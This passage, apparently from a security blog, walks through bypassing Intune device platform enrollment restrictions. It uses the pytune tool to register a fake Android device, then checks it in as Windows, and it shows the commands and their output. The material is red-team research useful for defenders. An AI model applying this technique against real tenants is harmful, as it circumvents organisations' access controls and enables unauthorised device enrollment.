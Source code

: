 # How to bypass Intune device platform enrollment restriction

## Method 1: Check-in as different OS

Let’s say the following device platform restrictions are configured in the target tenant:

- **Android**: Personally owned devices are **allowed**
- **Windows**: Personally owned devices are **blocked**

This is a common scenario where BYOD is allowed for mobile devices, while Windows devices are provided and managed by the organization.

With this configuration, Android device enrollment will succeed as shown below.

```zsh
$ python3 pytune.py entra_join -o Android -d Android_pytune -f .roadtools_auth                          
Saving private key to Android_pytune_key.pem
Registering device
Device ID: da27cd8a-7ed8-4478-99ac-75aaa870d10a
Saved device certificate to Android_pytune_cert.pem
[+] successfully registered Android_pytune to Entra ID!
[*] here is your device certificate: Android_pytune.pfx (pw: password)

$ python3 pytune.py enroll_intune -o Android -f .roadtools_auth -c Android_pytune.pfx -d Android_pytune
[*] resolved enrollment url: https://fef.msuc06.manage.microsoft.com/StatelessEnrollmentService/DeviceEnrollment.svc
[*] enrolling device to Intune...
[+] successfully enrolled Android_pytune to Intune!
[*] here is your MDM pfx: Android_pytune_mdm.pfx (pw: password)
```

The fake device was enrolled as an Android device because the `-o Android` option was specified.

![alt text](/assets/images/post1/android-registered.png)

Then, we run `checkin` command with the `-o Windows` option. When the command is executed with Windows specified as its OS, pytune submits the information of the fake device to Intune as if it were a Windows device like OS versions or device configurations.

```zsh
$ python3 pytune.py checkin -c Android_pytune.pfx -m Android_pytune_mdm.pfx -d Android_pytune -o Windows -f .roadtools_auth
[*] send request #1
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion
 [*] sending data for ./Vendor/MSFT/NodeCache/MS%20DM%20Server/ChangedNodes
 [*] sending data for ./DevDetail/SwV
 [*] sending data for ./DevDetail/Ext/Microsoft/LocalTime
 [*] sending data for ./Vendor/MSFT/WindowsLicensing/Edition
 [*] sending data for ./Vendor/MSFT/Update/LastSuccessfulScanTime
 [*] sending data for ./Vendor/MSFT/DeviceStatus/OS/Mode
[*] send request #2
 [*] sending data for ./Vendor/MSFT/DMClient/Provider/MS%20DM%20Server/EntDMID
 [*] sending data for ./DevDetail/Ext/Microsoft/DeviceName
 [*] sending data for ./DevInfo/Man
 [*] sending data for ./DevInfo/Mod
```